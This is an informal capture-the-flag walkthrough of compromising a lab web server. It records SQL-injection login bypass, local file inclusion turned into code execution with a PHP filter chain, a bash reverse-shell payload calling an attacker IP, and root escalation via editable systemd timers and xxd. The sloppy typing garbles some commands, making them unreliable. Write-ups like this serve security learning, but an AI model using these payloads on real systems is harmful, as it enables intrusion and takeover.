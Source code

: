 Started with a nmap scan when you port scan you to many ports seems like every port is open 
```
22 OpenSSH 8.2p1
80 Apache 2.4.41
```
Starting a gobuster scan 
```
/login.php
/images
/index.html
/users.html
/messages.html
/orders.html
/secret-script.php?file=
```
The only link that does anything is the login its also the only php script I did a sql injection into the login and and was able to bypass the login` ' || 1=1;-- -` and this takes us to some pages with a hidden parameter of `file=` and then adds a `php:///filter/recourse=` so we must have LFI here and we do have LFI I can read passwd file the only user is `comte` we can dump the mysql database and it has a hash in it but cant crack it after a while I was finally able to bypass the LFI restrictions with this script called `php_filter_chain_generator.py` you can find it on github and we run it and send it to a payload.txt file open a listener and then use this curl command to get a reverse shell `curl -s "http://10.10.23.74/secret-script.php?file=$(cat poayload.txt)"` and I just used a normal bash rev shell `<?php system('bash -c \"bash -i >& /dev/tcp/10.13.8.255/4445 0>&1\"')` now we have a shell as `www-data` to get the user we can just put in are own authorized keys in the file and then ssh into as `comte` when we go `sudo -l` we can run some timer files and we can edit them as well but when we try and retstart it it fails but we can edit the `explooit.timer` file and just add `5s` to the onboot and restart it and go to `/opt` and there is now a xxd file in there if we go to GTFObins there is some stuff we can do to make us root now we can write to the `autorized_keys` file in the root folder and now we are root